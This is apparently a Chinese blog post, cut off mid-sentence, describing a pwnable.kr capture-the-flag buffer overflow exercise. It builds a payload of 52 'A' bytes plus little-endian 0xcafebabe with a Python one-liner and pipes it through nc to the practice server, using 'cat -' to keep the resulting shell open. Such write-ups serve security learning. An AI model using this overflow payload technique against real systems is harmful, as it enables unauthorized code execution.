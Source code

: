 #+STARTUP: showall
#+STARTUP: hidestars
#+OPTIONS: H:2 num:nil tags:nil toc:nil timestamps:t
#+LAYOUT: post
#+AUTHOR: tiankai
#+DATE: 2015-09-14 Mon 22:55
#+TITLE: 构造缓冲区溢出字符串的一种方式
#+DESCRIPTION: stack overflow 字符串 
#+TAGS: pwn
#+CATEGORIES: 技术

* 背景
最近在做http://pwnable.kr/ 上面的溢出题目碰到了几个使用字符串然后进行溢出的题目,一开始遇到的时候,
知道输入的字符串是什么,到时就是不知道怎么构造,后来看到网上的分析才知道,原来字符串的输入方式是很有讲究的,
所以通过这篇文章记录一下.

* 通过python构造溢出性字符串
通过逆向分析,现在已经基本的知道了我们需要构造的溢出字符串的类型,就是前面52个填充型的字符串,然后后面跟着
"cafebabe"的小端写法,我们要发给的远程的计算机,通过nc进行连接:
#+begin_src bash
nc pwnable.kr 9000
#+end_src
所以我们想办法要将溢出的字符串直接传递给完成服务器,并且还是要以可见字符的形式,尤其是"cafebabe"要以字符串的
形式表现出来.
因为时字符串溢出,只能输入字符串,系统接受到字符,其实就是该字符的ASCII码,但是ASCII码会有很大的局限性,ascii码
的可见字符串的表现范围是:0x21~0x7e,还有大量的值是无法使用.这就要求我们不能使用普通的字符串,幸好我们有了python.

python中可以使用"\x+编码"的形式,直接表示字符串,也可以表示不可见字符串.
例如:
#+begin_example
\xbe\xba\xfe\xca 表示:cafebabe的字符串格式
#+end_example
通过上面的表示我们就可以很简单的表示特定编码的字符串了.
这时我们构造的字符串如下:
#+begin_example
python -c 'print "A"*52 + "\xbe\xba\xfe\xca"'
#+end_example
但是要怎么传输给远程服务器呢,如果直接先的格式是不行的.
#+begin_example
python -c 'print "A"*52 + "\xbe\xba\xfe\xca"' | nc pwnable.kr 9000
python -c 'print "A"*52 + "\xbe\xba\xfe\xca"' > nc pwnable.kr 9000
#+end_example
上面的命令都是不能成功的,这说明上面的重定位都是不对,都没有将我们构造的字符串输入到远程的服务器上去.

* 正确的输入方式
通过查找资料,发现正确的查找方式如下所示;
#+begin_src bash
(python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000
#+end_src
其中使用了4条命令;
1. (python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"' :打印字符串
2. cat - :输出stdin中的数据
3. | :管道,上一个的输出作为下一个的输入
4. nc pwnable.kr 9000 :和远程服务器进行通信.
通过上面的命令就可以

